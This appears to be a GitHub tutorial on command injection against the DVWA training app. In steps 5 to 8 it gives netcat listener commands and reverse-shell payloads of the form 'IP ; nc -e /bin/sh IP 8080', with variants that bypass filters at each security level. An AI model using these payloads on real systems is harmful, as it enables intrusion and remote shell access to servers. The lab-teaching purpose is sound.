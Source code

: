 
# Command Injection

Command Injection attack is performed by using arbitrary commands(The command which helps the system to run for example the commands used to play around with the file management system).

## What can we do by using the Command Injection attack ?

1. We can get control over the shell or terminal of the server where the website is hosted.   
2. Can upload shell using wget command on the public platform which can be highly exploitable.  

## Performing attack on DVWA 

1. Changing the security level of DVWA to low level of security. 

![image](https://user-images.githubusercontent.com/60937657/194223462-0e43d07a-d6dd-4291-8777-f9c30ff0c9e2.png)

![image](https://user-images.githubusercontent.com/60937657/194223357-3a83b501-8961-4646-b043-efc1e4060faf.png)

2. Find the IP address using terminal. 

```
  ifconfig 
```

3. Enter IP address to DVWA.  

![image](https://user-images.githubusercontent.com/60937657/194224867-2863f530-e203-4c53-92bf-344421fb8116.png)

4. Performing arbitrary command.

**Note** We will use arbitrary commands using piping. 

**For Example** 

```
  ls ; pwd 
```
```
  ls && pwd 
```
```
#In this way of piping we will only be output of final command which in pwd in this case.
  ls | pwd 
```
![image](https://user-images.githubusercontent.com/60937657/194370933-c383fb1c-ca37-48d2-ba90-a91d5ae01d8c.png)

5. Make a connection in shell of website server with terminal of our machine by starting netcat services for linux based server 

Using the below given command in terminal.

```
nc -vv -l -p 8080
```

![image](https://user-images.githubusercontent.com/60937657/194373887-5eb2d874-5036-4779-b0e8-a3bd5dbcdf2e.png)

**Note** Netcat service will always be hosted in bin folder of linux as per the architecture

6. Using a command in which we are going to use IP of our OS to fire on website by which we are going to get a connection in out terminal. 

```
IP_Address_of_my_OS ; nc -e /bin/sh IP_Address_of_my_OS 8080
```

![image](https://user-images.githubusercontent.com/60937657/194376389-1efd866c-c799-491e-8f69-ea807c39928c.png)

7. Changing the DVWA Security level to medium and then performing command injection using different piping method. 

```
IP_Address_of_my_OS | nc -e /bin/sh IP_Address_of_my_OS 8080
``` 

![image](https://user-images.githubusercontent.com/60937657/195312022-384fa5e3-338b-45b8-a3ed-73d796266087.png)

8. Changing the DVWA Security level to high and then performing command injection by just not providing any space while piping. 

```
IP_Address_of_my_OS|nc -e /bin/sh IP_Address_of_my_OS 8080
``` 

![image](https://user-images.githubusercontent.com/60937657/195314107-abebbe23-9775-4697-a6ce-192359913e07.png)

**Note** Can also use cat command to display the contents of one or more file without having to open the file for editing. 

![image](https://user-images.githubusercontent.com/60937657/195314710-90a92522-dc9e-417c-b44d-341bc200b5e7.png)

9. Precaution to avoid command injection attack.

To avoid this type of major attack we can add blacklist as given in the image below. 

![image](https://user-images.githubusercontent.com/60937657/195316315-3f95c69c-83c0-4a0a-8b3f-8611104f6a4e.png)

![image](https://user-images.githubusercontent.com/60937657/195316066-a42cb9eb-159d-4077-8731-86e7b3123d5c.png)







